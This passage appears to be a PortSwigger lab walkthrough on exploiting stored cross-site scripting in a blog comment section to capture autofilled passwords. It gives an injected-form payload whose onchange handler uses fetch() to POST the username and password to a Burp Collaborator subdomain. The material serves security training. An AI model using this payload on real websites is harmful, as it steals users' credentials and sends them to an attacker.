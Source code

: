 ![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/202fabe4-f1e0-43e4-afa2-b429012dd12e)

### Solution

we go to the comment section in the blog

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/d1060a5a-888a-4b93-a861-4bdbd2a76a1e)

In the comment box insert the following basic HTML input elements. In the password element we will add an event handler, ‘onchange’, that will trigger our new function called 'do()'

```js
<input type="text" name="username">
<input type="password" name="password" onchange="dothis()">
```

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/a7e8e04e-a5df-4cc2-ae27-eb435f9ea536)

now post the comment and go back to blog to view it

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/05977348-e8ef-4af8-96ef-8b60dde6b694)

it worked, two fields with username and password was creted.Now we need to incorporate it into our payload using Fetch API.

payload

```js
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/8027cf8e-ef29-4237-b21e-ce315a96f713)

now we go to burp collaborator and press poll now
